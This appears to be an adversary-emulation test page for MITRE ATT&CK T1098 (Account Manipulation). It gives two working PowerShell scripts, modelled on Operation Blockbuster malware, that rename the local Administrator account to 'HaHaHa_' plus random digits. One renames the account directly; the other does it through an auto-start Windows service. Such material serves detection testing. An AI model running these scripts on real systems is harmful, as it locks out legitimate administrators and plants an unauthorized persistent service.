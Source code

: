 # Account Manipulation

MITRE ATT&CK Technique: [T1098](https://attack.mitre.org/wiki/Technique/T1098)

Adapted from [Operation Blockbuster](https://operationblockbuster.com/wp-content/uploads/2016/02/Operation-Blockbuster-Destructive-Malware-Report.pdf)

## Example 1

If successful, the Administrator account will be renamed with `HaHaHa_` followed by 4 to 16 digits.

    $x = Get-Random -Minimum 2 -Maximum 9999
    $y = Get-Random -Minimum 2 -Maximum 9999
    $z = Get-Random -Minimum 2 -Maximum 9999
    $w = Get-Random -Minimum 2 -Maximum 9999
    Write-Host HaHaHa_$x$y$z$w

    $hostname = (Get-CIMInstance CIM_ComputerSystem).Name

    $fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

    foreach($member in $fmm) {
        if($member -like "*Administrator*") {
            Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
            Write-Host "Successfully Renamed Administrator Account on" $hostname
            }
        }

## Example 2

If successful, the Administrator account will be renamed with `HaHaHa_` followed by 4 to 8 digits.

    $x = Get-Random -Minimum 2 -Maximum 99
    $y = Get-Random -Minimum 2 -Maximum 99
    $z = Get-Random -Minimum 2 -Maximum 99
    $w = Get-Random -Minimum 2 -Maximum 99
    $newadmin = "HaHaHa_$x$y$z$w".ToString()

    $serviceName = "Rename Account Service"
    $serviceDisplayName = "Rename Account Service"
    $serviceDescription = "Rename Account Service"
    $serviceExecutable = "wmic useraccount where name='Administrator' rename '$newadmin'"

    if (Get-Service $serviceName -ErrorAction SilentlyContinue)
    {
        $serviceToRemove = Get-WmiObject -Class Win32_Service -Filter "name='$serviceName'"
        $serviceToRemove | Stop-Service
        $serviceToRemove.delete()
    }
    else
    {
        "service does not exists"
    }

    Write-Host "Installing service: $serviceName"
    New-Service -name $serviceName -displayName $serviceDisplayName -binaryPathName $serviceExecutable -startupType Automatic -Description $serviceDescription
    Write-Host "Installation completed: $serviceName"

    Write-Host "Trying to start new service: $serviceName"

    $serviceToStart = Get-WmiObject -Class Win32_Service -Filter "name='$serviceName'"
    $serviceToStart.startservice()
    Write-Host "Service started: $serviceName"
